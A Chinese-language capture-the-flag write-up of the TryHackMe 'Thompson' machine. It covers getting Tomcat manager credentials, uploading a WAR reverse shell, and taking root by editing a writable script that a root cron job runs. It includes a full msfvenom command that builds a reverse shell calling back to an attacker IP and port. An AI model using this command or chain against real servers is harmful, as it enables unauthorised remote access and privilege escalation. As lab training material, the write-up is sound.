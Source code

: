 ```yaml
---
title: '[thm] Thompson'
date: 2024-12-26 14:15 +0800
categories: [hack,TryHackMe]
tags: []
---
```




## information

![image-20241226141638959](../assets/img/2024-12-26-%5Bthm%5D%20Thompson.assets/image-20241226141638959.png)

> nmap扫描

![image-20241226142025415](../assets/img/2024-12-26-%5Bthm%5D%20Thompson.assets/image-20241226142025415.png)

> 8080端口截图

看到开放了三个端口。其中`8009`这个端口和对应的`ajp13`服务引起了我的兴趣，查询可知，这个服务存在一个任意文件读取的漏洞，并且事实上这个漏洞确实存在。

8080端口是一个`tomcat`，理所当然的查看`manager`路径，登录页面需要账号密码。

![image-20241226142311254](../assets/img/2024-12-26-%5Bthm%5D%20Thompson.assets/image-20241226142311254.png)

到此为止，我一开始觉得思路就很清晰了，我只需要通过任意文件读取的漏洞查看到`conf/tomcat-user.xml`中的账号密码就可以了。事实并非如此，任意文件读取就是一个兔子洞，我在这里浪费了太多的时间，其实只需要按下`Cancel`按钮，就可以直接看到密码......

![image-20241226142458987](../assets/img/2024-12-26-%5Bthm%5D%20Thompson.assets/image-20241226142458987.png)

> zhei您受得了吗。

**tomcat/s3cret**

## user1

有了tomcat的后台页面，顺理成章我们上传一个war木马，就可以拿到shell

```shell
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.14.95.76 LPORT=1234 -f war -o shell.war
```

偷个懒，就不复现一遍了。

![image-20241226142721955](../assets/img/2024-12-26-%5Bthm%5D%20Thompson.assets/image-20241226142721955.png)

## root

![image-20241226142849270](../assets/img/2024-12-26-%5Bthm%5D%20Thompson.assets/image-20241226142849270.png)

到`jack`哥哥的家目录下。可以发现一个`id.sh`。里面内容大致如下（这里的已经被我修改了）。

```sh
#/bin/bash

id > test.txt
```

同时查看定时任务发现，这是`root`的定时任务，每分钟执行。我看到命令行内容第一反应是劫持环境变量提权，但是这里注意权限，我们对`id.s`h是可读可写可执行。所以我们只要修改sh脚本的内容，就可以得到我们想要的`root.txt`

![image-20241226143347446](../assets/img/2024-12-26-%5Bthm%5D%20Thompson.assets/image-20241226143347446.png)

> own~



## conclusion

- 注重思路的同时要注意细节。这个靶机两个点都与细节有关，`cancel`一个，`sh`脚本权限一个。

